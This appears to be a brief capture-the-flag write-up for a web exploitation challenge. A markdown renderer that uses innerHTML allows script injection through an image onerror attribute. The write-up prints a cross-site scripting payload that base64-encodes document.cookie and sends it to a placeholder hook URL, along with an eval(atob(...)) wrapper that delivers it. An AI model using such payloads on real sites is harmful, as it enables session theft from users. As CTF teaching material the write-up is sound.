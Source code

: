 # BUFFZONE (Web Exploitation)

### The Vulnerability:

1. User enters text, which is then parsed through a markdown parser.
2. URLs are replaceable with clickable links.
3. Parsed content is displayed using `innerHTML`.

### The Exploit:

Markdown allows users to add images using the format:
```
![catshttps://onerror=alert(1)//]()
```
When image fails to load, onerror is triggered.

### Payload:

```js
window.open(`{HOOK_URL}?x=${btoa(document.cookie)}`);
```

Cookie is retrieved using this payload.

```
**![catshttps://onerror=eval(atob('d2l=='))//]()**
```

Passing our js payload to this decrypts the payload and executes it, thereby fetching the cookie. Hence, flag.
